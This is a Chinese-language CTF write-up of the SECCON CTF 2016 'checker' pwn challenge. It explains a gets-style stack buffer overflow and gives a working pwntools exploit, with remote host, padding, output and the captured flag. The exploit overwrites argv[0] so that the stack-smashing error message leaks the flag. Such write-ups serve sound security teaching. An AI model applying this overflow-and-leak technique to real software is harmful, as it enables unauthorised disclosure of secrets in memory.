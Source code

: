 ```yaml
---
title: "[SECCON CTF 2016 Quals] checker 300"
author: bruce30262
tags:
- pwn
- buffer overflow
- SECCON CTF 2016
- stack overflow
categories:
- write-ups
date: '2016-12-15'
layout: post
---
```


## Info  
> Category: pwn  
> Point: 300  
> Author: bruce30262 @ BambooFox


## Analyzing
64 bit ELF, Full RELRO, 有 stack canary 和 NX , 沒 PIE.

程式很小，行為也很簡單:

```
$ ./checker 
Hello! What is your name?
NAME : 123

Do you know flag?
>> 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : asdf
You are a liar...
```
簡單來說就是程式會讀我們的 input，然後比對 flag 內容 ( 正確的 flag 內容會存在 `.bss` section )，之後印出比對的結果。

程式使用自製的函式 `getaline()` 來讀 user 的 input

```c
while ( buf && read(0, &buf, 1uLL) )
{
    if ( buf == 10 )
      buf = 0;
    *(_BYTE *)(a1 + (signed int)v4++) = buf; // a1 = input buffer
}
```

可以看到 `getaline()` 就跟 `stdio.h` 裡面的 `gets()` 一樣，除非讀到換行，否則會一直讀下去，因此這是一個很明顯的 buffer overflow 漏洞。

```
$ ./checker
Hello! What is your name?
NAME : 123

Do you know flag?
>> yes

Oh, Really??
Please tell me the flag!
FLAG : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You are a liar...
*** stack smashing detected ***: ./checker terminated
[1]    70548 abort      ./checker
```

## Exploit

一開始想嘗試直接蓋 return address，但是因為有 canary 的關係使得這很難做到。直到看到程式印出 stack smash 的 error message 時，才突然想起可以直接蓋 `argv[0]`，將指向執行檔路徑的 char* pointer 改成存 flag 的 buffer address，之後觸發 `stack_chk_fail`，使程式印出 error message，進而 leak 出 flag 的內容:
```
*** stack smashing detected ***: [flag content] terminated
```

這邊要注意的是 `argv[0]` 原本是一個 stack address，長度為 6 個 byte，而 flag 的 buffer address 位於 `0x6010c0`，長度為 3 個 byte，因此在蓋 `argv[0]` 之前要先將 `argv[0]` 作清空的動作，否則之後印 error message 時會 crash 掉。

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "checker.pwn.seccon.jp"
PORT = 14726
ELF_PATH = "./checker"
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']

context.log_level = 'INFO'

elf = ELF(ELF_PATH)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    pad = 0x178

    r.sendlineafter(": ", "aaaa")
    
    # null out argv[0]
    for i in xrange(8,-1,-1):
        payload = "A"*pad + "B"*i
        r.sendlineafter(">> ", payload)
    
    r.sendlineafter(">> ", "yes")

    # overwrite argv[0] to flag buffer
    payload = "A"*pad + p64(0x6010c0)
    r.sendlineafter(": ", payload)
	
    r.interactive()

```

exploit 在本地端可以 work，但是之後送 remote 端時卻一直沒噴回 flag。本來以為是 padding 的問題，但是在做了一些測試之後斷定 padding 是正確的，input buffer 離 `argv[0]` 就是 376 個 byte。因此之後就是瘋狂的鬼打牆，不斷地送同樣的 payload 到 remote 端並祈禱 exploit 能夠 work。然後就在比賽結束前 3 分鐘，奇蹟發生了...
```
[+] Opening connection to checker.pwn.seccon.jp on port 14726: Done
You are a liar...
*** stack smashing detected ***: SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4} terminated
[*] Got EOF while reading in interactive
```

完全無法理解 XDDD ( 明明是一模一樣的 payload 啊 ! )
而且在這之後不管怎麼送就是不會 work，非常詭異

無論如何還是驚險地拿到了這 300 分 =w=

flag: `SECCON{y0u_c4n'7_g37_4_5h3ll,H4h4h4}`


## Afterword 
之後 **mike** 在 trello 上有提到，如果 `0x6010c0` 是在回答 yes 之前蓋的話就會 work。或是把 `sendlineafter()` 改成 `sendline()`，之後一次 `recvall()` 也會噴回 flag。
至於詳細原因為何至今仍然無解......